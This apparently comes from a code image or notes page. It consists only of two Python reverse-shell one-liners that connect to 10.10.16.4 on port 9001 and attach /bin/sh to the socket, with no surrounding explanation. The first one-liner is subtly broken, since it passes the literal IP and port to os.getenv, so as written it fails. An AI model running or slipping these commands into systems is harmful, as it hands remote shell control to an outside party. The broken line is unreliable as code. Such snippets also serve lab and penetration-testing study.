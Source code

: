 export RHOST="10.10.16.4";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("10.10.16.4"),int(os.getenv("9001"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'


python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'


